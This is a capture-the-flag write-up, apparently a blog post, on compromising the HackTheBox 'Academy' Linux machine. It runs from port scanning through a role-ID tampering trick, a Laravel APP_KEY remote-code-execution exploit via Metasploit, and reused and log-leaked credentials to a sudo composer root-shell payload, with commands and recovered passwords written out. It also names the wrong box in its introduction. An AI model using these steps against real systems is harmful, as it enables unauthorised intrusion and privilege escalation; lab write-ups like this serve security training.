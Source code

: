 ```yaml
---
layout: post
title: [Academy - Linux]
subtitle: HackTheBox
thumbnail-img: /assets/img/academy.jpg
tags: [red]
---
```


This is my solution to the HackTheBox Passage Linux box, my second HTB writeup and my first root own!

# Academy - Linux - 10.10.10.215

# Enumeration:

As usual, we start out with nmap on the ip.

```
nmap -sC -sV -Pn 10.10.10.215
```

Results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-11 22:46 EST
Nmap scan report for 10.10.10.215
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```

From here, we see that there is an http port open with a redirect to http://academy.htb. We then open our hosts file by doing `sudo vim /etc/hosts`. There, we add the host `10.10.10.215 academy.htb`

Next, we access http://academy.htb, and find a login page. We try registering an account and logging in to see what the website gives. There is quite a bit of useless information, and I was unable to find any services that could be exploited. We then move to the `/admin.php` page to see if we can login as admin.

To do so, we use burpsuite, finding the original post request that we used to login to `register.php`, sending it to the repeater, modifying the username, password, confirm, and most importantly the roleid to 1, and then logging in with our set credentials into the `/admin.php` page.

## Breaking In:

Here, we see the following information:


![admin login page](./pictures/academy1.png)


Let's check out http://dev-staging-01.academy.htb. Again we add this host to `/etc/hosts`, and we open the site. It gives us some good information:

```
APP_NAME 	"Laravel"

APP_ENV 	"local"

APP_KEY 	"base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="

APP_DEBUG 	"true"

APP_URL 	"http://localhost"

SERVER_ADMIN 	"admin@htb"

DB_CONNECTION 	"mysql"

DB_HOST 	"127.0.0.1"

DB_PORT 	"3306"

DB_DATABASE "homestead"

DB_USERNAME "homestead"

DB_PASSWORD "secret"
```



We look up "lavarel" exploits on metasploit, and we find one for remote code execution. Running this with a listener system, with academy.htb as the target host, and with the given APP_KEY, we get a shell.

Opening up Kali, we first connect to the VPN then run the following commands:

```
msfconsole
search laravel
set RHOSTS academy.htb
set APP_KEY dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
set lhost tun0
set vhot dev-staging-01.academy.htb
run
```

Here, we get a webshell. We use `python3 -c "import pty; pty.spawn('/bin/bash')"` to spawn a reverse shell.

After poking around for a bit, we find the `/var/www/html/academy/.env`, with the `ls -al` command which has credentials:

```
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

We also find in the `/home' directory a list of possible users:

```
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

We `su cry0l1t3` with cry0l1t3:mySup3rP4s5w0rd!!. 

## Winning:

Enter the home directory and `cat user.txt`

# Root: 

We can now ssh into cry0l1t3.

In cry0l1t3's `/var` directory, we enter `/var/log/audit`. Here, we want to search for root logins with the command:

```
cat * | grep 'comm="su"'
```

Results:

```
type=TTY msg=audit(1597199293.906:84): tty pid=2520 uid=1002 auid=0 ses=1 major=4 minor=1 comm="su" data=6D7262336E5F41634064336D79210A
```

We need to crack this data. Turns out it is unencrypted hex. When converted, we get:

```
mrb3n_Ac@d3my!
```

Looks like creds to me :). We try mrb3n:mrb3n_Ac@d3my!, which works!

We now execute `sudo -l` with mrb3n's password and get the following:

```
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer

````

We then use https://gtfobins.github.io/gtfobins/composer/ to get:

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Running these commands breaks out of the restricted environment, giving access to a root shell. 

Navigating to the root directory, we are able to `cat root.txt` and own root!
